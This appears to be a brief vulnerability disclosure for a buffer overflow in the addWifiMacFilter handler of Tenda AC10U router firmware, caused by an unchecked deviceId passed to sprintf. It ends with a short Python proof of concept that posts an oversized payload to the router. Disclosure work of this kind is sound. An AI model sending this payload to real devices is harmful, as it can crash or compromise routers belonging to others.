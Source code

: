 # buffer overflow

## Tenda_AC10U_V1

version: V15.03.06.49

## Description:

There is a buffer overflow in httpd/addWifiMacFilter

## Source:

you may download it from : https://www.tendacn.com/download/detail-3795.html

## Analyse:


![](18.png)

get value from deviceId ,the call sprintf, cause buff overflow




## POC
```
url = "http://192.168.1.13/goform/addWifiMacFilter"
payload = 'A'*300 + '\n'

r = requests.post(url, data={'deviceId': payload})
``` 
